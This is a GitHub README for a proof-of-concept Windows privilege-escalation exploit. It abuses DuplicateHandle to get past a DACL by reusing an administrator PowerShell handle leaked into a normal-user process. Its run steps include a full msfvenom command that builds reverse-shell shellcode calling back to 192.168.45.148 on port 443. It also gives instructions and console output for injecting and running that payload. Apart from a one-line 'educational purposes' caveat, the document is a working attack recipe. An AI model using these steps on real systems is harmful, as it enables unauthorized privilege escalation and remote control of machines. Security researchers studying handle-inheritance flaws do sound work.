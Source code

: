 # BypassDACL
PoC for Bypass DACL in Windows with DuplicateHandle.
You can read more about this code: https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb
These codes allow you to create a security hole in your program. You can also use this vulnerability and cause privilege escalation.
**Note that this is a POC and is for educational purposes only**
## Run this code
Generate shellcode for AttackerPE.exe\n
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
copy shellcode to AttackerSource.cpp and compile it.

run powershell.exe with Admin privilege
run notepad.exe with normal-user
run vendor.exe with Admin privilege
```
Vendor.exe
Enter the Process name that you want get Handle (like powershell.exe): powershell.exe
Enter the target Process name (like notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe then find a handle named powershell.exe
and write address of handle in AttackerPE code...
[*] Sleep(INFINITE) After running AttackerPE.exe for exit this code press Ctrl+C
```


open **procexp64.exe** and copy address of handle (powershell.exe) from **notepad.exe**
Past address to A
run AttackerPE.exe with normal-user
